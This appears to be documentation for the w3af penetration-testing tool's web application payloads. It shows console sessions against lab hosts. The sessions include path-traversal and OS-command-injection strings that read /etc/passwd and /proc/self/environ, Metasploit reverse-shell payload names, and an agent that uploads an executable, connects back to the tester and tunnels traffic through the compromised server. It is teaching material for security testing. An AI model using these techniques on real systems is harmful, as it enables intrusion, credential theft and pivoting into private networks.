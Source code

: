 Web Application Payloads
========================

Introduction
------------

From the hundreds of different Web Application Vulnerabilities that can be found on any web application, **only a small percentage gives the intruder a direct way for executing operating system commands.** And if we keep digging into that group we’ll identify only one or two that under normal circumstances might give the intruder elevated privileges.

Keeping always in mind that the objective of the penetration tester is to gain a root shell in the remote server, Web applications seem to offer more resistance than classic memory corruption exploits; which is true if you have a 0day exploit developed within the Metasploit framework that matches the remote server installation, but if not... **the Web might be the only way in.**

Until now, the exploitation of these vulnerabilities, and the steps needed to achieve access with a user of elevated privileges had to be performed manually, which could in many situations take hours (depending on the web application penetration tester’s skills) and may or may not achieve its objective.

Web Application Payloads are the evolution of old school system call payloads which are used in memory corruption exploits since the 80's. The basic problem solved by any payload is pretty simple: "I have *access* , what now?". In memory corruption exploits it's pretty easy to perform arbitrary tasks because after successful exploitation the attacker is able to control the remote CPU and memory, which allow for execution of arbitrary operating system calls. With this power it’s possible to create a new user, run arbitrary commands or upload files.


In the Web Application field *the situation is completely different*, the intruder is restricted to the "system calls" that the vulnerable Web Application script exposes. For example:

 * Arbitrary File Read Vulnerabilities *exposes* **read()**
 * OS Commanding Vulnerabilities *exposes* **exec()**
 * SQL Injection Vulnerabilities *exposes* **read(), write() and potentially exec()**

Web Application Payloads are small pieces of code that are run in the intruder’s box, and then translated by the Web Application exploit to a combination of GET and POST requests to be sent to the remote Web server. For example, a call to the emulated syscall read() with ``/proc/self/environ`` as a parameter would generate this request when it’s run through an arbitrary file read vulnerability: ``http://host.tld/read.php?file=/proc/self/environ``

And this other request when exploiting an OS Commanding vulnerability ``http://host.tld/os.php?cmd=;cat /proc/self/environ``


Running Web Application Payloads
--------------------------------

The following is a console dump from w3af scanning a vulnerable application, exploiting a vulnerability and then running the ``list_processes`` payload:


.. code-block:: none

    w3af>>> plugins
    w3af/plugins>>> audit lfi
    w3af/plugins>>> back
    w3af>>> target
    w3af/config:target>>> set target http://localhost/local_file_read.php?file=section.txt
    w3af/config:target>>> back
    w3af>>> start
    Found 1 URLs and 1 different points of injection.
    The list of URLs is:
    - http://localhost/local_file_read.php
    The list of fuzzable requests is:
    - http://localhost/local_file_read.php | Method: GET | Parameters: (file="section.txt")
    Starting lfi plugin execution.
    Local File Inclusion was found at: "http://localhost/local_file_read.php", using HTTP method GET.
    The sent data was: "file=../../../../../../../../etc/passwd".
    This vulnerability was found in the request with id 3.
    Finished scanning process.
    w3af>>> exploit
    w3af/exploit>>> exploit local_file_reader
    local_file_reader exploit plugin is starting.
    - [0] <shell object (rsystem: "*nix")>
    Please use the interact command to interact with the shell objects.
    w3af/exploit>>> interact 0
    Execute "end_interaction" to get out of the remote shell. Commands typed in this menu will be
    runned through the local_file_reader shell
    w3af/exploit/local_file_reader-0>>> payload list_processes
    ...
    PID   NAME   STATUS          CMD
    1     init   S (sleeping)    /sbin/init
    5183  mysqld S (sleeping)    /usr/sbin/mysqld
    w3af/exploit/local_file_reader-0>>>


This shows how it's possible to retrieve the **full list of running process with a simple arbitrary file read vulnerability.** Similar examples that are able to read the open TCP/IP connections, operating system IP route table, and much more information are not shown for the sake of brevity.

The ``lsp`` command lists the available payloads, it's important to notice that the list of payloads that can be run changes based on the used exploit. For example, running ``lsp`` inside a remote file inclusion shell will most likely return a list of all payloads, while running it inside a local file read shell will return the payloads that can be run when the vulnerability exposes only the read() syscall.


Metasploit integration
----------------------

There are a set of web application payloads which can be used to interact with the metasploit framework. When the exploit provides the exec() syscall to the payloads, this allows the w3af user to upload metasploit payloads to the target system and execute them to continue the post-exploitation process.

*   msf_linux_x86_meterpreter_reverse
*   msf_windows_meterpreter_reverse_tcp
*   msf_windows_vncinject_reverse
*   metasploit
*   Identify the vulnerability during a scan
*   Exploit the vulnerability
*   Run “payload <payload_name>”


Proxying traffic through the compromised host
---------------------------------------------

Also implemented as a web application payload, this feature allows you to create a reverse tunnel that will route TCP connections through the compromised server. Before going through an example to see how to use this feature, we will make a summary of the steps that will happen
during exploitation:

#.  w3af finds a vulnerability that allows remote command execution
#.  The user exploits the vulnerability and starts the w3af_agent
#.  w3af performs an extrusion scan by sending a small executable to the remote server. This executable connects back to w3af and allows the framework to identify outgoing firewall rules on the remote network.
#.  w3af_agent manager will send a w3afAgentClient to the remote server.
    The process of uploading the file to the remote server depends on the remote operating system, the privileges of the user running w3af and the local operating system; but in most cases the following happens:
*   w3af reuses the information from the first extrusion scan, which was performed in step 3 in order to know which port it can use to listen for connections from the compromised server.
*   If a TCP port is found to be allowed in the remote firewall, w3af will try to run a server on that port and make a reverse connection from the compromised in order to download the PE/ELF generated file. If no TCP ports are enabled, w3af will send the ELF/PE file to the remote server using several calls to the “echo” command, which is rather slow, but should always work because it's an in-band transfer method.

#.  w3af_agent manager starts the w3afAgentServer that will bind on localhost:1080 (which will be used by the w3af user) and on the interface configured in w3af ( misc-settings->interface ) on the port discovered during step 3.
#.  The w3afAgentClient connects back to the w3afAgentServer, successfully creating the tunnel
#.  The user configures the proxy listening on localhost:1080 on his preferred software
#.  When the program connects to the socks proxy, all outgoing connections are routed through the compromised server

Now that we know the theory, let's see an example of what this feature can do:

.. code-block:: none

    w3af>>> plugins
    w3af/plugins>>> audit os_commanding
    w3af/plugins>>> back
    w3af>>> target
    w3af/target>>> set target http://172.10.10.1/w3af/v.php?c=list
    w3af/target>>> back
    w3af>>> start
    The list of found URLs is:
    - http://172.10.10.1/w3af/v.php
    Found 1 URLs and 1 different points of injection.
    The list of Fuzzable requests is:
    - http://172.10.10.1/w3af/v.php | Method: GET | Parameters: (c)
    Starting os_commanding plugin execution.
    OS Commanding was found at: http://172.10.10.1/w3af/v.php . Using method: GET.
    The data sent was: c=%2Fbin%2Fcat+%2Fetc%2Fpasswd The vulnerability was found in the request with id 2.
    w3af>>> exploit
    os_commanding exploit plugin is starting.
    Vulnerability successfully exploited. This is a list of available shells:
    - [0] <os_commanding object (ruser: "www-data" | rsystem: "Linux brick 2.6.24-19-generic i686 GNU/Linux")>
    Please use the interact command to interact with the shell objects.
    w3af/exploit>>> interact 0
    Execute "end_interaction" to get out of the remote shell.
    Commands typed in this menu will be runned on the remote web server.
    w3af/exploit/os_commanding-0>>>

Nothing really new until now, we configured w3af, started the scan and exploited the vulnerability.

.. code-block:: none

    w3af/exploit/os_commanding-0>>> payload w3af_agent
    Usage: w3af_agent <your ip address>
    w3af/exploit/os_commanding-0>>> payload w3af_agent 172.1.1.1
    Please wait some seconds while w3af performs an extrusion scan.
    The extrusion scan failed.
    Error: The user running w3af can't sniff on the specified interface. Hints: Are you root?
    Does this interface exist?
    Using inbound port "8080" without knowing if the remote host will be able to connect back.

The last messages are printed when you run w3af as a normal user, the reason is simple, when you run w3af as a user you can't sniff and therefor can't perform a successful extrusion scan. A successful extrusion scan would look like:

.. code-block:: none

    Please wait some seconds while w3af performs an extrusion scan.
    ExtrusionServer listening on interface: eth1
    Finished extrusion scan.
    The remote host: "172.10.10.1" can connect to w3af with these ports:
    - 25/TCP
    - 80/TCP
    - 53/TCP
    - 1433/TCP
    - 8080/TCP
    - 53/UDP
    - 69/UDP
    - 139/UDP
    - 1025/UDP
    The following ports are not bound to a local process and can be used by w3af:
    - 25/TCP
    - 53/TCP
    - 1433/TCP
    - 8080/TCP
    Selecting port "8080/TCP" for inbound connections from the compromised server to w3af.

In both cases (superuser and user), these should be the following steps:

.. code-block:: none

    Starting w3afAgentClient upload.
    Finished w3afAgentClient upload.
    Please wait 30 seconds for w3afAgentClient execution.
    w3afAgent service is up and running.
    You may start using the w3afAgent that is listening on port 1080. All connections made
    through this SOCKS daemon will be relayed using the compromised server.


And now, from another console we can use a socksClient to route connections through the compromised server:

.. code-block:: console

    $ nc 172.10.10.1 22
    (UNKNOWN) [172.10.10.1] 22 (ssh) : Connection refused
    $ python socks_client.py 127.0.0.1 22
    SSH-2.0-OpenSSH_4.3p2 Debian-8ubuntu1
    Protocol mismatch.

Where the socks_client.py code looks like:

.. code-block:: python

    import extlib.socksipy.socks as socks
    import sys

    s = socks.socksocket()
    s.setproxy(socks.PROXY_TYPE_SOCKS4,"localhost")
    s.connect((sys.argv[1],int(sys.argv[2])))

    s.send('\n')
    print s.recv(1024)
